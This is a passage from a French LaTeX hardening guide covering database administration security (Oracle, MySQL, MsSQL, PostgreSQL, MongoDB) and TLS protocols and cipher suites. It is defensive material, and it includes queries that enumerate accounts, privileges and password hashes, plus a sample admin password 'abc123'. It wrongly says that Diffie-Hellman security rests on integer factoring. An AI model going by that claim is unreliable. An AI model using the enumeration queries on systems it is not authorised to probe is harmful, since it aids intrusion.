	La table sys.user\$ n'est accessible que par l'utilisateur administrateur.\\
	Pour lister les permissions de tous les comptes, il faut utiliser: \\
	\sql{SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;}\\
	Par défaut, les utilisateurs SYS, SYSTEM, SYSMAN et DBSNMP sont toujours présents.
\end{FlagConsole}
\begin{FlagConsole}{Table et Database avec Oracle}
	Pour afficher toutes les tables de la base courante:\\
	\sql{SELECT table_name FROM all_tables;}\\
	Pour afficher le nom de la database:\\
	\sql{SELECT name FROM v$database;}
\end{FlagConsole}

L'OWASP adresse certaines recommandations pour le durcissement d'une base de données Oracle. La liste complète est disponible sur le site web\footnote{\url{https://www.owasp.org/index.php/OWASP_Backend_Security_Project_Oracle_Hardening}}.

\subsection{MySQL/MariaDB}\index{BD@Base de Données!MySQL}\index{BD@Base de Données!MariaDB}
MariaDB est un fork de MySQL créé suite au rachat de Sun Microsystem par Oracle. De ce fait, les commandes présentées ici seront applicables pour MySQL et MariaDB. Les versions des gestionnaires sont respectivement la 10.0.20 (MariaDB) et 5.6.26 (MySQL). Leur port par défaut d'utilisation est le 3306/TCP.\\
MySQL est très populaire et installé lors de l'utilisation du paquet LAMP ou WAMP (avec PHP et Apache). Il est utilisable dans un contexte de catalogues relationnels mais n'est pas recommandé dans un contexte nécessitant une forte intégrité, une réplication des données ou un nombre important de transactions. Le moteur InnoDB permet de gérer ces contraintes, son fork pour MariaDB est XtraDB.

\begin{FlagConsole}{Lister les utilisateurs avec MySQL}
	Pour lister les utilisateurs:
	\sql{select * from mysql.user;}\\
	La table mysql.user n'est accessible que par l'utilisateur administrateur.\\
	Il est à noter que MySQL peut utiliser un algorithme de hachage interne MySQL-SHA. Cette algo se reconnait à l'utilisation d'une astérisque avant le condensat.\tcblower
	Pour lister les permissions possibles, il faut utiliser: \\
	\sql{DESC mysql.user;}\\
	Pour afficher les autorisations par utilisateurs:\\
	\sql{SHOW GRANTS FOR myusername;}\\
	Par défaut l'utilisateur root est toujours présent.
\end{FlagConsole}
\begin{FlagConsole}{Table et Database avec MySQL}
	Pour afficher toutes les tables de la base courante:\\
	\sql{SHOW TABLES;}\\
	Pour afficher les noms de database:\\
	\sql{SHOW DATABASES;}
\end{FlagConsole}

De même que pour les bases de données Oracle, l'OWASP met à la disposition des consultants une liste de règles permettant de durcir la gestion de la base de données\footnote{\url{https://www.owasp.org/index.php/OWASP_Backend_Security_Project_MySQL_Hardening}}. Certaines de ces recommendations portent sur le durcissement du sytème d'exploitation, nous y reviendrons dans la section éponyme. 

\subsection{MsSQL\index{BD@Base de Données!SQL Server}}
Les bases de données MsSQL se basent sur le moteur relationnel SQL Server\MarginPar{\textbf{SQL Server}}{0cm}. Les versions de 2005 à 2014 disposent actuellement du support complet de mise à jour. L'implémentation du langage SQL est Transact-SQL \MarginPar{\textbf{Transact-SQL}}{0cm}, un langage permettant l'utilisation de procédures stockées et de fonctions utilisateur. Ce langage supporte également les \textit{triggers} et les opérations algébriques.\\
Le port par défaut de SQL Server est le 1433/TCP.

\subsubsection{Paramétrage SQL}
Les commandes \sql{EXEC xp_cmdshell}\footnote{Fonction T-SQL d'appel au shell Windows} et \sql{EXEC msdb.dbo.sp_send_dbmail}\footnote{Fonction T-SQL d'envoi de mail} sont désactivées par défaut depuis 2005. Leur réactivation constitue une faille de sécurité majeure. À partir de SQL Server 2008, Microsoft propose une fonctionnalité d'analyse de journaux d'évènements (\textit{Audit database}), cette fonction permet de déclencher une coupure du service en fonction d'évènements journalisés. La fonction audit se crée en utilisant la commande \sql{CREATE SERVER AUDIT audit_name;}.

\subsubsection{Gestion des comptes utilisateurs}
Microsoft recommande l'utilisation d'utilisateurs uniques non administrateurs pour l'exécution de chaque services constituants MsSQL. La gestion des privilèges des utilisateurs Windows doit être gérée par le biais de groupe Windows. SQL Server Configuration Manager doit être utilisé de préférence pour le changement de ses comptes. Enfin la commande T-SQL \textit{CREDENTIAL} doit être utilisé pour l'ajustement des privilèges.\\
L'authentification sur SQL Server peut se faire en utilisant deux modes: Windows Authentification et Mixed Mode. Le Mixed Mode permet d'assurer l'aspect Legacy des systèmes ou leur compatibilité avec d'autres systèmes. Dans le cas d'une authentification de type \textit{Mixed Mode}, il est recommandé de renommer le compte \textbf{sa} (créé par défaut) et de ne l'utiliser que pour attribuer le niveau d'élevation sysadmin à un utilisateur ou un groupe séparé. De plus, il est recommander d'activer les connexions SSL pour les connexions distantes via SQL Login.

\subsubsection{Chiffrement de la base}
SQL Server incorpore une solution de chiffrement à l'échelle des cellules depuis 2005 et à l'échelle de la base entière (TDE) depuis 2008 Enterprise. Les deux systèmes s'appuient sur la bibliothèque applicative de Microsoft DPAPI. \\
La création de la master clef se fait en réalisant un appel à la bibliothèque via la commande SQL:\\
\sql{CREATE MASTER KEY WITH ENCRYPTION BY PASSWORD='passphrase'}\\
Cette commande protège la clef avec une passphrase et la stocke deux fois par défaut. La passphrase peut être fournie à chaque fois ou la base peut être déchiffrée en stockant la master key dans une database master. La Master Key permet avant 2012 de chiffrer en triple DES et après 2012 en AES-256.\MarginPar{\textbf{Chiffrement en base de données}}{0cm} La Master Key est ensuite utilisée pour protéger une clef asymétrique, un certificat ou une clef symétrique pour chaque base de données\footnote{\url{https://msdn.microsoft.com/fr-fr/library/ms189586(v=sql.120).aspx}}. Les sous-clefs peuvent être crées avec des appels aux fonctions:\\
\sql{CREATE CERTIFICATE certificate_name}\\
\sql{CREATE ASYMMETRIC KEY Asym_Key_Name}\\
Le mode TDE (Transparent Data Encryption) permet l'utilisation d'un nombre minimum de clefs pour chiffrer la base entière.

\subsubsection{Commandes courantes}
\begin{FlagConsole}{Lister les utilisateurs avec MsSQL}
	Pour lister les utilisateurs (TRANSACT-SQL):\\
	\sql{SELECT * FROM sys.database_principals;}\\
	\tcblower
	Pour lister les permissions possibles, il faut utiliser: \\
	\sql{SELECT pr.principal_id, pr.name, pr.type_desc, }\\
		\sql{    pr.authentication_type_desc, pe.state_desc, pe.permission_name}\\
		\sql{FROM sys.database_principals AS pr}\\
		\sql{JOIN sys.database_permissions AS pe}\\
		\sql{ON pe.grantee_principal_id = pr.principal_id;}\\
\end{FlagConsole}
\begin{FlagConsole}{Table et Database avec MsSQL}
	Pour afficher toutes les tables de la base courante:\\
	\sql{SELECT * FROM sys.tables;}\\
	Pour les afficher en tant qu'objets:\\
	\sql{SELECT sobjects.name FROM sysobjects sobjects}\\
	\sql{WHERE sobjects.xtype = 'U';}\\
	Pour afficher les noms de database:\\
	\sql{SELECT name FROM master.dbo.sysdatabases;}\\
	La commande TRANSACT-SQL correspondante est:\\
	\sql{EXEC sp_databases;}
\end{FlagConsole}

\subsection{PostgreSQL\index{BD@Base de Données!PostgreSQL}}
PostgreSQL est un \gls{SGDB} gérant à la fois des données relationnelles et objet, c'est-à-dire que les données manipulées peuvent utiliser un typage étendu. \`A l'image de MsSQL, PostgreSQL possède un langage de programmation propre PL/pgSQL\MarginPar{\textbf{PL/pgSQL}}{0cm}. Son port par défaut d'utilisation est le 5432/TCP.\\
Les autorisations de connexions sont listées au sein du fichier \textbf{pg\_hba.conf}. Ce fichier contient les entrées sous la forme "\textit{TYPE - DATABASE - USER - ADDRESS - METHOD}".\begin{itemize}
\item \textit{TYPE}: Il est recommandé de n'autoriser que les connections local ou utilisant du SSL/TLS (hostssl)
\item \textit{DATABASE - USER}: Le principe du moindre droit se doit d'être aux databases accessibles par les utilisateurs
\item \textit{ADDRESS}: Il est recommandé de limiter le nombre d'IP autorisée.
\item \textit{METHOD}: Les méthodes recommandées doivent utiliser une authentification forte comme \textit{crypt}.
\end{itemize}
Par défaut PostgreSQL utilise une structure "\textit{public}" ce qui fait que tous les utilisateurs ont accès aux catalogues systèmes. Pour supprimer cette permission, il est nécessaire d'exécuter la commande suivante:\\
\sql{REVOKE CREATE ON SCHEMA public FROM PUBLIC;}\\
et de créer ensuite un SCHEMA protégé:\\
\sql{CREATE SCHEMA privateschema AUTHORIZATION adminUser;}\\
pour utiliser par défaut ce schéma il faut éditer le \textit{path} à l'aide de la commande:\\
\sql{SET search_path TO privateschema,public;}\\
Pour contrôle ce changement il suffit de taper la commande:\\
\sql{SHOW search_path;}

\begin{FlagConsole}{Lister les utilisateurs avec PostgreSQL}
	Pour lister les utilisateurs:
	\sql{SELECT rolname FROM pg_roles;}\\
	Le catalogue n'est accessible que par les utilisateurs ayant les droits suffisants.\\
\end{FlagConsole}
\begin{FlagConsole}{Table et Database avec PostgreSQL}
	Pour afficher toutes les tables de la base courante:\\
	\sql{SELECT spcname FROM pg_tablespace;}\\
	Pour afficher les noms de database:\\
	\sql{SELECT datname FROM pg_database;}
\end{FlagConsole}

\subsection{MongoDB\index{BD@Base de Données!MongoDB}}
MongoDB est un \gls{SGDB} permettant la gestion de bases de données document, c'est-à-dire sans schéma prédéfini. Il utilise une structure \gls{JSON} pour la gestion des \textit{documents}. Ce type de stockage présente un intérêt particulier pour les formats d'entrée non statique, comme par exemple, l'archivage de journaux d'évènements. De plus du fait de l'absence de structure relationnelle, MongoDB présente de meilleures performances que les bases relationnelles.MongoDB existe en version Community et en version Enterprise\\
Le port par défaut de MongoDB est 27017/TCP.\\
MongoDB n'active pas par défaut les schémas d'authentification et d'autorisation. Pour activer ces fonctionnalités, il faut lancer une première instance sans identification et créer un utilisateur administrateur.
\begin{Config}{javascript}{Création d'administrateur MongoDB}
use admin
db.createUser(
  {
    user: "myAdmin",
    pwd: "abc123",
    roles: [ { role: "userAdminAnyDatabase", db: "admin" },"clusterAdmin" ]
  }
)
\end{Config}
Le rôle \textit{userAdminAnyDatabase} est, avec \textit{clusterAdmin}, la valeur maximum d'autorisation possible sur un SGDB, elle peut être ajusté à l'aide de sous niveau de granularité disponible\footnote{\url{https://docs.mongodb.com/manual/reference/built-in-roles/}}.\\
\begin{Config}{javascript}{Lister les utilisateurs et les rôles d'une database MongoDB}
use admin
db.getUsers()
db.getRoles(
    {
      rolesInfo: 1,
      showPrivileges:true,
      showBuiltinRoles: true
    }
)
\end{Config}
MongoDB nécessite une configuration importante de base notamment dans le cas de \textit{sharding}. La configuration suivante met en avant les points-clefs de la sécurité à mettre en place sans \textit{sharding}.\\ 
\begin{Config}{YAML}{Configuration MongoDB non-exhaustive}
systemLog:
   destination: file
   path: "/var/log/mongodb/mongod.log"
   logAppend: true
storage:
   journal:
      enabled: true
processManagement:
   fork: true
net:
   bindIp: 127.0.0.1
   port: 27017
  ssl:
    sslOnNormalPorts: true
    mode: requireSSL
    PEMKeyFile: /etc/ssl/mongodb.pem
    CAFile: /etc/ssl/ca.pem
    AllowConnectionsWithoutCertificates: true
    disabledProtocols: TLS1_0,TLS1_1
security:
   authorization: enabled
   javascriptEnabled: false
setParameter:
   enableLocalhostAuthBypass: false
\end{Config}

\subsubsection{Configuration \textit{ssl}}
L'option \textbf{AllowConnectionsWithoutCertificates} dans le bloc ssl permet d'autoriser les connexions de clients ne présentant pas de certificat. Cette option n'est nécessaire qu'en cas de présence de l'option \textbf{CAFile} qui fourni le certificat utilisé pour les certificats clients. Cette option sert donc dans le cas d'architecture mixte.\\
L'option \textbf{clusterFile} permet de définir un certificat d'authentification au sein du cluster.

\subsubsection{Configuration \textit{security}}
L'option \textbf{authorization} permet d'activer le \gls{RBAC} en complément avec la création d'utilisateurs compartimentés. D'autres options de configuration permettent également d'utiliser SASL et Kerberos\\
La désactivation de l'exécution de code JavaScript en natif est fortement recommandée.\\ 
Dans la version Enterprise et avec le moteur wiredTiger, L'option \textbf{enableEncryption} permet le chiffrement de la base de données\MarginPar{\textbf{Chiffrement en base de données}}{0cm} en AES-256 en complément avec un mode de chiffrement \gls{CBC} ou \gls{GCM} défini par l'option \textbf{encryptionCipherMode}. Si c'est possible le chiffrement de la base est recommandé.

\section{Système d'exploitation}
\subsection{GNU/Linux}
\subsection{Microsoft Windows}


\section{Chiffrement des communications}
\begin{Warning}
Il est recommandé de consulter l'annexe sur la Cryptographie en cas de besoin de documentation plus détaillée sur les algorithmes à utiliser pour les protocoles de chiffrement.
\end{Warning}
\subsection{SSL/TLS: Protocoles de communication}
\begin{Stop}
Par abus de langage, on désigne par SSL à la fois, \gls{SSL} et \gls{TLS}. Il est souhaitable d'éviter cette ambiguité en désignant séparément les deux familles de protocoles.
\end{Stop}
\begin{Define}{SSL/TLS!Diffie-Hellman}
Les protocoles de chiffrement SSL/TLS ont été définis par l'\gls{IETF} afin de garantir Confidentialité, Intégrité et Authenticité des communications sur Internet.\\
Il en existe encore 4 utilisés aujourd'hui:\begin{itemize}
\item \textbf{\gls{SSL}v3.0} est défini en 1996 par la \gls{RFC}6101 et rendu désuet en 2015 par la \gls{RFC}7568. SSLv3.0 reste malheureusement encore largement utilisé en compatibilité. Il s'agit d'une vulnérabilité critique.
\item \textbf{\gls{TLS}v1.0} est défini en 1999 par la \gls{RFC}2246 comme une mise à jour de SSLv3.0. Il a été conçu pour être inter-compatible avec SSLv3.0.
\item \textbf{\gls{TLS}v1.1} est défini en 2006 par la \gls{RFC}4346. Il introduit des protections contre les attaques par padding.
\item \textbf{\gls{TLS}v1.2} est défini en 2008 par la \gls{RFC}5246. Il permet de mettre à jour les algorithmes de chiffrement incluant notamment les modes de chiffrement authentifiés (\gls{GCM}, \gls{CCM}...). Il introduit également le principe d'extension TLS incluant la renégociation et la restauration de session, la définition des paramètrages d'\gls{ECC} ou de la gestion d'hostname.
\end{itemize}
\end{Define}

\subsection{SSL/TLS: Protocoles d'échange de clefs}
\subsubsection{\textit{pre\_master\_key}}
\begin{Define}{SSL/TLS!master\_secret}
Tous les protocoles d'échange de clef ci-dessous permettent d'obtenir un  \textit{pre\_master\_secret}, le \textit{master\_secret} est généré par l'application de la fonction PRF, tel que:\\ $\mathrm{PRF}(\mathrm{pre\_master\_secret}, \mathrm{"master secret"},\mathrm{ClientHello.random}+\mathrm{ServerHello.random})$\\ où PRF est la fonction itérative de hash défini par la ciphersuite tel que:\\ $\mathrm{P\_hash}(secret,label+seed)= \sum\limits_{i=1}^n \mathrm{HMAC_{hash}}(secret,A_i+seed)$\\où la somme indique la concaténation, $A_0=seed$ et n est fonction de la valeur de sortie nécessaire. Pour le \textit{master\_secret}, la taille est de 48 octet soit deux itérations avec P\_SHA-256.\\
\`A partir de ce secret, la clef de session est générée par la formule:\\%problème avec les espaces
$PRF(master\_secret, "key expansion",ClientHello.random + ServerHello.random)$\\
tel que le résultat obtenu soit la concaténation de \textit{key.mac.client, key.mac.server, key.encryption.client, key.encryption.server, IV.client} et \textit{IV.server}.\\
Cette méthode est défini par la RFC5246.
\end{Define}
Le PRF de TLS est par défaut SHA-256, cependant SHA-384 doit être utilisé pour les suites cryptographiques le supportant.
\subsubsection{Diffie-Hellman et Elliptic Curve Diffie-Hellman}
\begin{Define}{SSL/TLS!Diffie-Hellman}
\gls{DH} est un protocole d'échange de clefs basé sur un groupe cyclique fini \gls{ZnZ}. Il consiste en la création d'une clef partagée en utilisant un secret commun. Du fait de la difficulté de factorisation d'un entier facteur de deux nombres premiers de grande taille, un attaquant passif ne pourrait pas déterminer la clef commune. Cependant un attaquant actif peut biaiser la communication en se faisant passer pour le destinataire final.\\
C'est pour cette raison que les échanges \gls{DH} réalisés dans le contexte des communications \gls{HTTPS} sont signés par le serveur après la transmission du certificat, c'est le \textit{Server Key Exchange}.
\end{Define}
L'échange Diffie-Hellman se définit par la RFC2631, tel que:\\
\begin{tikzpicture}
\draw (-3,4) -- (-3,-3);
\draw (3,4) -- (3,-3);
\draw (-3,5) node {Client};
\draw (3,5) node {Serveur};
\draw (4,3.5) node {\textit{a},g,n};
\draw (-4,2) node {\textit{b},\textbf{g},\textbf{n},\textbf{A}};
\draw (4,0.5) node {\textit{a},\textbf{g},\textbf{n},\textbf{B}};
\draw (4.9,-1) node {$\textit{K}\equiv\textbf{B}^\textit{a}\pmod{\textbf{n}}$};
\draw (5.2,-2) node {$\equiv{\textbf{g}^\textit{b}}^\textit{a}\pmod{\textbf{n}}$};
\draw (-5,-1) node {$\textit{K}\equiv\textbf{A}^\textit{b}\pmod{\textbf{n}}$};
\draw (-4.7,-2) node {$\equiv{\textbf{g}^\textit{a}}^\textit{b}\pmod{\textbf{n}} $};
\draw[->] (2.8,2.5) -- node[above] {\textbf{g},\textbf{n},$\textbf{A}\equiv \textbf{g}^\textit{a}\pmod{\textbf{n}}$,sig(A,g,n)} node[below] {\small \textit{Server Key Exchange}}  (-2.8,2.5);
\draw[->] (-2.8,1) -- node[above] {$\textbf{B}\equiv \textbf{g}^\textit{b} \pmod{\textbf{n}}$}  node[below] {\small \textit{Client Key Exchange}}  (2.8,1);
\end{tikzpicture} \\
Le résultat de cette échange est le \textit{pre\_master\_secret}.\\
Diffie-Hellman se décline sous trois versions:\begin{itemize}
\item Anonymous Diffie-Hellman (ADH): Cette méthode n'offre aucune résistance face à une attaque dite de l'Homme-du-Milieu, il est recommandé de la désactiver.
\item Diffie-Hellman standard (DH): Cette méthode utilise des paramètres DH définit dans le certificat.
\item Diffie-Hellman Ephemeral (DHE): Cette méthode permet l'utilisation de paramètres DH temporaires signée par la clef maitre. Ainsi la compromission de la clef maitre du serveur ne met pas en danger les sessions passées, cette protection s'appelle le Perfect Forward Secrecy (PFS).
\end{itemize}
La sécurité de \gls{DH} reposant sur le groupe \gls{ZnZ}, les paramètres requis pour une bonne utilisation sont les mêmes que pour toute utilisation de ce groupe, c'est-à-dire concernant le chiffrement asymétrique (voir l'\hyperref[analCrypto]{Annexe Cryptologie}). Les recommandations de tailles sont l'utilisation d'un groupe de taille \DHrecosize bits. La recommandation actuelle de l'\gls{ANSSI} est de \DHrecosizeAnssi bits et celle du \gls{NIST} de \DHrecosizeNIST bits. La recommandation de la NSA pour sa Suite B (CNSA) et pour des échanges classifiés équivalents TSD est d'utiliser un groupe de taille \DHrecosizeCNSA bits.\\
L'utilisation de DHE permet d'assurer une contre-mesure contre un pré-calcul des paramètres Diffie-Hellman. En effet pour une valeur donnée, il est possible de factoriser $n$. Cette attaque a été réalisée contre certains paramètres par défaut utilisés par Apache\footnote{\url{https://weakdh.org/imperfect-forward-secrecy-ccs15.pdf}}.\\
Sur un espace faible ($<$\DHminsize bits), la factorisation de tous les $n$ possibles de cette taille peut être réalisée. Pour cette raison il est également recommandé d'utiliser des paramètres d'une taille supérieure ou égale à \DHrecosize.\\
\begin{Define}{SSL/TLS!Elliptic Curve Diffie-Hellman}
Elliptic Curve Diffie-Hellman (ECDH) est une implémentation de Diffie-Hellman utilisant la Cryptographie à Courbes Élliptique (ECC) comme primitive cryptographique. L'\gls{ECC} se base sur l'usage de paramètres de domaine pour définir une courbe élliptique.\\
\end{Define}
\begin{Warning}
L'explication des courbes élliptiques figure en annexe.
\end{Warning}

La recommandation actuelle de l'\gls{ANSSI} est d'utiliser des courbes d'ordre \ECDHrecosizeAnssi. La recommandation du \gls{NIST} est d'utiliser des courbes d'ordre \ECDHrecosizeNIST et celle de la Suite B de la \gls{NSA} \ECDHrecosizeCNSA.\\
Il est à noter que la \gls{NSA} a émis en août 2015 un avis indiquant sa volonté de rendre désuette l'utilisation de l'ECC dans la Suite B au profit d'algorithmes de type \textit{\gls{PQC}}\footnote{http://blog.cryptographyengineering.com/2015/10/a-riddle-wrapped-in-curve.html}.

\subsubsection{RSA}

\FIXME{Chiffrement d'une valeur aléatoire choisie par le client, marche seulement si le certificat serveur n'interdit pas le chiffrement}

\subsubsection{Kerberos}
\subsubsection{PSK/SRP}




\subsection{SSL/TLS: Gestion des suites cryptographiques}
\begin{Define}{SSL/TLS!Suites cryptographiques}
Une suite cryptographique est une chaine de caractères formalisant les différentes composantes utilisées dans le chiffrement de la communication.\\
Ainsi la suite cryptographique:\\
\indent\textbf{TLS}\_\textit{DHE}\_\textcolor{red}{RSA}\_WITH\_\textcolor{Green}{AES}\_\textcolor{blue}{128}\_\textcolor{Purple}{CBC}\_\underline{SHA}\\
utilise le \textbf{protocole} \gls{TLS} (a minima v1.0) , le \textit{protocole d'échange de clefs} \gls{DHE} et l'\textcolor{red}{algorithme de signature du protocole de clef} \gls{RSA}. L\textcolor{Green}{'algorithme de chiffrement symétrique} protégeant la communication est AES avec une \textcolor{blue}{taille de clef} de 128 bits et utilisant \textcolor{Purple}{le mode de chiffrement} CBC. SHA est l'\underline{algorithme utilisé pour les contrôle d'intégrité et d'authenticité}.\\
Certaines composantes peuvent être compressé en un seul mot comme par exemple avec \textbf{TLS}\_\textcolor{red}{\textit{RSA}}\_WITH\_\textcolor{Green}{AES}\_\textcolor{blue}{128}\_\textcolor{Purple}{CBC}\_\underline{SHA} qui propose l'utilisation de l'algorithme RSA pour l'échange de clef et intrinsèquement l'authentification du serveur.
\end{Define}
Pour définir les suites cryptographiques à utiliser, il est recommandé de se référé au niveau
\newpage
\subsubsection{Arborescence des suites cryptographiques TLS}
\list{}{\leftmargin -6em}
\item[] \newsavebox{\mindmapTLS}

\begin{lrbox}{\mindmapTLS}%
\scalebox{0.40}{
\begin{tikzpicture}[ every annotation/.style = {draw, fill = white, font = \Large}]
  \path[mindmap,concept color=Cerulean,text=white,
    every node/.style={concept},
    root/.style    = {concept color=Cerulean,
      font=\LARGE\bfseries,text width=10em},
    good/.style    = {concept color=green!40!black},
    bad/.style    = {concept color=red!60!black},
    medium/.style    = {concept color=Cerulean},
    deprecated/.style    = {concept color=orange},
    level 1 concept/.append style={font=\Large\bfseries,
      sibling angle=45,text width=7em,
    level distance=30em,inner sep=0pt},
    level 2 concept/.append style={sibling angle=36, font=\small\bfseries,level distance=10em,text width=5.5em},
    level 3 concept/.append style={sibling angle=36, font=\footnotesize\bfseries,level distance=8em,text width=4em},
    level 4 concept/.append style={sibling angle=45, font=\scriptsize\bfseries,level distance=5em,text width=3em},
    level 5 concept/.append style={sibling angle=45, font=\tiny\bfseries,level distance=4em,text width=3em}
  ]

  node[root] {TLS} [clockwise from=0]
    child[good] {% Famille TLS_RSA, TLS_RSA_PSK se trouve en bloc de fin car ajouté plus tard
      node {\underline{\textit{RSA}}} [clockwise from=160]
        child[bad] { node [concept](RSANULL){NULL}}
        child[bad] { node [concept](RSARC4){RC4\\128}}
        child[deprecated] { node [concept](RSA3DES){3DES-EDE}[clockwise from=60]
          child { node [concept]{CBC}
            child { node [concept]{SHA}}
          }
        }
        child[medium] { node [concept]{AES\\128}[clockwise from=60]
          child { node [concept]{CBC}[clockwise from=82]
            child[deprecated] { node [concept]{SHA}}
            child { node [concept]{SHA256}}
          }
         child { node [concept]{GCM}[clockwise from=40]
            child { node [concept](RSAAES128SHA256){SHA256}}
          }
        }
        child[good] { node [concept] {AES\\256}[clockwise from=30]
          child[medium] { node [concept]{CBC}[clockwise from=40]
            child[deprecated] { node [concept]{SHA}}
            child { node [concept]{SHA256}}
          }
         child { node [concept]{GCM}[clockwise from=0]
            child { node [concept]{SHA384}}
          }
        }
        child[medium] { node [concept]{CAMELLIA\\128}[clockwise from=350]
          child { node [concept]{CBC}[clockwise from=0]
            child { node [concept](RSACAM128SHA){SHA}}
          }
        }
        child[good] { node [concept]{CAMELLIA\\256}[clockwise from=350]
          child[medium] { node [concept]{CBC}
            child[deprecated] { node [concept](RSACAM256SHA){SHA}}
          }
        }
        child[deprecated] { node [concept] {SEED}[clockwise from=340]
          child { node [concept]{CBC}[clockwise from=350]
            child { node [concept](RSASEEDSHA){SHA}}
          }
        }
        child[bad] { node [concept](RSAIDEA){IDEA}}
        child[bad] { node [concept](RSADES){DES}}
    }%Famille des Diffie-Hellman et Elliptique Curve Diffie-Hellman
    child[medium,sibling angle=50] {
      node[concept] {\underline{DH}}
        [clockwise from=350]
        child[good] { node [concept](DHRSA){\textit{RSA}}[clockwise from=130]       
            child[bad] { node [concept](DHDES){DES}}
            child [deprecated]{ node [concept](DH3DES){3DES\\EDE}[clockwise from=140]
              child { node [concept]{CBC}[clockwise from=210]
                child { node [concept]{SHA}}
            }}
            child[medium,sibling angle=36] { node [concept](DHCAMELLIA128){\tiny CAMELLIA\\128}[clockwise from=0]
              child { node [concept]{CBC}
                child[deprecated] { node [concept]{SHA}}
              }
            }
            child { node [concept](DHCAMELLIA256){\tiny CAMELLIA\\256}[clockwise from=0]
              child[medium] { node [concept]{CBC}
                child[deprecated] { node [concept](CAMELLIA256SHA){SHA}}
              }
            }
            child[deprecated] { node [concept](DHSEED){SEED}[clockwise from=15]
              child { node [concept]{CBC}[clockwise from=3]
                child { node [concept]{SHA}}
              }
            }
            child[medium] { node [concept](DHAES128){AES\\128}[clockwise from=4]
              child { node [concept]{CBC}[clockwise from=20]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept]{SHA256}}
              }
              child { node [concept]{GCM}[clockwise from=340]
                child { node [concept]{SHA256}}
              }
            }
            child[good] { node [concept](DHAES256){AES\\256}[clockwise from=320]
              child[medium] { node [concept]{CBC}[clockwise from=340]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept]{SHA256}}
              }
              child { node [concept]{GCM}[clockwise from=300]
                child { node [concept](DHAES256GCMSHA384){SHA384}}
              }
            }
          }
        child[good,sibling angle=60] { node [concept](DHDSS){\textit{DSS}}}
        child[bad,sibling angle=122] { node [concept](DHRSAEXPORT) {\textit{RSA\\EXPORT}} }
        child[bad,sibling angle=60] { node{\textit{Anon}} }
    }% Diffie Hellman Ephemeral: pour des raisons pratiques ce noeud est repointé vers RSA, DSS et RSA_EXPORT plutôt que de reproduire à l'identique
    child[good,sibling angle=38] {
      node[concept](DHE) {\underline{DHE}}
        [counterclockwise from=275]
        child[good] { node [concept](DHEPSK){\textit{PSK}}[clockwise from=50]
            child[bad] { node [concept](DHERC4){RC4\\128}}
            child[bad] { node [concept]{NULL}}
            child [deprecated]{ node [concept]{3DES\\EDE}[clockwise from=320]
              child { node [concept]{CBC}[clockwise from=340]
                child { node [concept]{SHA}}
            }}
            child[medium] { node [concept]{AES\\128}[clockwise from=340]
              child { node [concept]{CBC}[clockwise from=340]
                child[deprecated] { node [concept](AES128SHA){SHA}}
                child { node [concept]{SHA256}}
              }
              child { node [concept]{GCM}[clockwise from=300]
                child { node [concept]{SHA256}}
              }
            }
            child[good] { node [concept]{AES\\256}[clockwise from=290]
              child[medium] { node [concept]{CBC}[clockwise from=300]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept]{SHA384}}
              }
              child { node [concept]{GCM}[clockwise from=260]
                child { node [concept]{SHA384}}
              }
            }
        }
    }
    child[good,sibling angle=46] {% L'arbre ECDH/ECDHE est mieux équilibré permettant une meilleure lecture des liens
      node[concept] (ECDHE){\underline{ECDHE}}
        [clockwise from=355]
        child[good,sibling angle=50] { node [concept](ECDHRSA){\textit{RSA}}[clockwise from=0]
            child[good] { node [concept](ECDHAES256){AES\\256}[counterclockwise from=320]
              child[medium] { node [concept]{CBC}[counterclockwise from=240]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept]{SHA384}}
              }
              child { node [concept]{GCM}[clockwise from=300]
                child { node [concept]{SHA384}}
              }
            }
            child[bad] { node [concept](ECDHNULL){NULL}}
            child[level distance=18em] { node [concept](ECDHCHACHA20){\scriptsize CHACHA20}[counterclockwise from=280]% CHACHA20
              child { node [concept]{\tiny POLY1305}[counterclockwise from=340]
                child{node [concept]{SHA256}}
              }
            }
          }
        child[good,sibling angle=75] { node [concept](ECDHECDSA){\textit{ECDSA}}[counterclockwise from=270]
            child [deprecated]{ node [concept](ECDH3DES){3DES\\EDE}[clockwise from=270]
              child { node [concept]{CBC}[clockwise from=270]
                child { node [concept]{SHA}}
            }}
           child[medium] { node [concept](ECDHAES128){AES\\128}[clockwise from=310]
              child { node [concept]{GCM}[clockwise from=310]
                child { node [concept]{SHA256}}
              }
              child { node [concept]{CBC}[clockwise from=310]
                child { node [concept](ECDHECDSASHA256){SHA256}}
                child[deprecated] { node [concept]{SHA}}
              }
            }
            child[bad] { node [concept](ECDHRC4){RC4\\128}}
        }
        child[good,sibling angle=55] { node [concept](ECDHPSK){\textit{PSK}}[clockwise from=270]
            child [deprecated]{ node [concept]{3DES\\EDE}[counterclockwise from=270]
              child { node [concept]{CBC}[clockwise from=270]
                child { node [concept]{SHA}}
            }}
            child[medium] { node [concept]{AES\\128}[clockwise from=270]
              child { node [concept]{CBC}[clockwise from=280]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept]{SHA256}}
              }
              child { node [concept]{GCM}[clockwise from=230]
                child { node [concept]{SHA256}}
              }
            }
            child[good] { node [concept]{AES\\256}[clockwise from=210]
              child[medium] { node [concept]{CBC}[clockwise from=270]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept](ECDHPSKAES256SHA384){SHA384}}
              }
              child { node [concept]{GCM}[clockwise from=210]
                child { node [concept]{SHA384}}
              }
            }
            child[bad] { node [concept]{RC4\\128}}
            child[bad] { node [concept]{NULL}}
        }
    }
    child[medium,sibling angle=39] {
      node[concept] (ECDH) {\underline{ECDH}} [counterclockwise from=220]
        child[bad] { node [concept](ECDHANON){\textit{Anon}}}
    }
    child[medium,sibling angle=39] {%PSK doit il être noté comme deprecated? Je ne pense pas mais un changement se tiendrait
      node[concept] (PSK){\underline{\textit{PSK}}} [clockwise from=240]
            child [deprecated]{ node [concept]{3DES\\EDE}[clockwise from=260]
              child { node [concept]{CBC}[clockwise from=250]
                child { node [concept]{SHA}}
            }}
            child[medium] { node [concept]{AES\\128}[clockwise from=270]
              child { node [concept]{CBC}[counterclockwise from=210]
                child[deprecated] { node [concept]{SHA}}
                child { node [concept]{SHA256}}
              }
              child { node [concept]{GCM}[clockwise from=200]
                child { node [concept]{SHA256}}
              }
            }
            child[good] { node [concept]{AES\\256}[counterclockwise from=190]
              child[medium] { node [concept]{CBC}[clockwise from=210]
                child[deprecated] { node [concept]{SHA}}
